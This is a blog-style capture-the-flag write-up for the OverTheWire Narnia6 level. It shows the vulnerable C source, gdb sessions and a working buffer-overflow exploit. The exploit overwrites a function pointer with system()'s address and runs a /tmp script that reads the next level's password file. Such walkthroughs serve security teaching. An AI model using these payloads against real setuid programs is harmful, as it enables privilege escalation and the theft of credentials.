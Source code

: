 ```yaml
---
layout: post
title:  "Buffer Overflows: Narnia6"
date:   2017-07-23 14:15:50 -0400
categories: master
---
```



The source code:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;

	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));

	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	fp(b1);

	exit(1);
}
```
What's interesting about this code is the following:
```
if(((unsigned long)fp & 0xff000000) == get_sp())
	exit(-1);
```
This means that if `fp` has the same address as our stack, it doesn't get executed. Instead, the program just exits. Since any shellcode we input gets injected into the stack, we can't use this method.
We notice that this program includes `stdlib.h`, which includes the `system()` function. What we can do is overwrite `fp`, which current points to `puts()` to `system()`, which will then attempt to execute it's input.

Let's do a test run, we'll set up a break point right before the last `exit()` function:
```
(gdb) disass main
Dump of assembler code for function main:
   0x08048559 <+0>:	push   ebp
   0x0804855a <+1>:	mov    ebp,esp
   0x0804855c <+3>:	push   ebx
   0x0804855d <+4>:	and    esp,0xfffffff0
   0x08048560 <+7>:	sub    esp,0x30
[snip]
   0x080486b2 <+345>:	call   eax
   0x080486b4 <+347>:	mov    DWORD PTR [esp],0x1
   0x080486bb <+354>:	call   0x8048410 <exit@plt>
End of assembler dump.
(gdb) break *main+354
Breakpoint 1 at 0x80486bb
(gdb) run $(python -c 'print "A"*7') $(python -c 'print "B"*7')
Starting program: /narnia/narnia6 $(python -c 'print "A"*7') $(python -c 'print "B"*7')
AAAAAAA
```
We see that prints out our first buffer, which is what `puts` does.

Let's look at the stack:
```
(gdb) x/12xw $esp
0xffffd6d0:	0x00000001	0xffffd8f7	0x00000021	0x08048712
0xffffd6e0:	0x00000003	0xffffd7a4	0x42424242	0x00424242
0xffffd6f0:	0x41414141	0x00414141	0x080483f0[1]	0x00000003
```
`[1]` currently points to `puts()`:
```
(gdb) x/4i 0x080483f0
   0x80483f0 <puts@plt>:	jmp    DWORD PTR ds:0x8049968
   0x80483f6 <puts@plt+6>:	push   0x10
   0x80483fb <puts@plt+11>:	jmp    0x80483c0
   0x8048400 <__gmon_start__@plt>:	jmp    DWORD PTR ds:0x804996c
```
We'll need to overwrite this address with `system()`. In gdb, we can get the address of a function using `print`:
```
(gdb) print &system
$1 = (<text variable, no debug info> *) 0xf7e62e70 <system>
```
Let's inject the address into `b1`:

```
(gdb) run $(python -c 'print "A"*8 + "\x70\x2e\xe6\xf7"') $(python -c 'print "B"*7')
Starting program: /narnia/narnia6 $(python -c 'print "A"*8 + "\x70\x2e\xe6\xf7"') $(python -c 'print "B"*7')
sh: 1: AAAAAAAAp.��: not found

Breakpoint 1, 0x080486bb in main ()
(gdb) x/12xw $esp
0xffffd6d0:	0x00000001	0xffffd8f7	0x00000021	0x08048712
0xffffd6e0:	0x00000003	0xffffd7a4	0x42424242	0x00424242
0xffffd6f0:	0x41414141	0x41414141	0xf7e62e70	0x00000000
(gdb) 
```

We've successfully overwritten `fp` with `system()`. Now to leverage this exploit to get the next level's password.
The argument of `sh` is `b1`, which includes our address. Any command we could possibly inject into our buffer would include the address. To bypass this, we'll create a file `/tmp/aaa[return address]` which has the command `cat /etc/narnia_pass/narnia7`, which `system()` will execute with elevated privileges:
```
narnia6@narnia:/narnia$ echo 'cat /etc/narnia_pass/narnia7' > $(python -c 'print "/tmp/aaa" + "\x70\x2e\xe6\xf7"')
```
We'll have to add executable rights to the file. 
```
narnia6@narnia:/narnia$ chmod 777 $(python -c 'print "/tmp/aaa" + "\x70\x2e\xe6\xf7"')
```
And finally we run the code:
```
narnia6@narnia:/narnia$ ./narnia6 $(python -c 'print "/tmp/aaa" + "\x70\x2e\xe6\xf7"') $(python -c 'print "B"*7')
[password]
```
Which gives us the password.
